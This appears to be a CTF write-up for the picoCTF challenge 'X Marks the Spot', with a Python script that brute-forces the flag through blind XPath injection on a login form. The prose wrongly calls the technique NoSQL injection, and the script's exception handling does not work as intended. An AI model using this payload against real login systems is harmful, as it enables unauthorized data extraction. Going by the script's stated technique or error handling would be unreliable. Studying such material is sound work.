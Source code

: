 ## X Marks the Spot
The following python code uses a blind nosql injection to brute force the website. Essentially we can send the server a part of the flag and it will respond with "yes" or "no".  We can use this to brute force the flag. So the script below send every possible charcter until we get a character right, then it appends a new one to try it again for the next character. This process repeats until the flag is complete.

For example:

	Request: "picoCTF{a"
	Response: "no"

	Request: "picoCTF{b"
	Response: "no"

	Request: "picoCTF{c"
	Response: "yes"

	Request: "picoCTF{ca"
	Response: "no"

	Request: "picoCTF{cb"
	Response: "yes"

If you would like to read on the topic, here are some resources:
[https://owasp.org/www-community/attacks/Blind_XPath_Injection](https://owasp.org/www-community/attacks/Blind_XPath_Injection "https://owasp.org/www-community/attacks/Blind_XPath_Injection")  [https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection "https://book.hacktricks.xyz/pentesting-web/xpath-injection")

  ```python
 import requests
 
alphabet =  "_abcdefghijklmnopqrstuvwxyz1234567890()ABCDEFGHIJKLMNOPQRSTUVXWYZ{}"
flag =  "picoCTF{"
url =  "http://mercury.picoctf.net:28065/"

req = requests.Session()

while flag[-1]  !=  '}':
	for i in  range(len(alphabet)):
		try:
			res = req.post(url,  data={"name":"bob' and //*[contains(text(),'"+flag+alphabet[i]+"')] or ''='","pass":"admin"},  timeout=1)

			if  ("Login failure"  not  in res.text):
				flag += alphabet[i]
				print("[+] Flag: "  + flag)
				break
		except:
			i-=1 
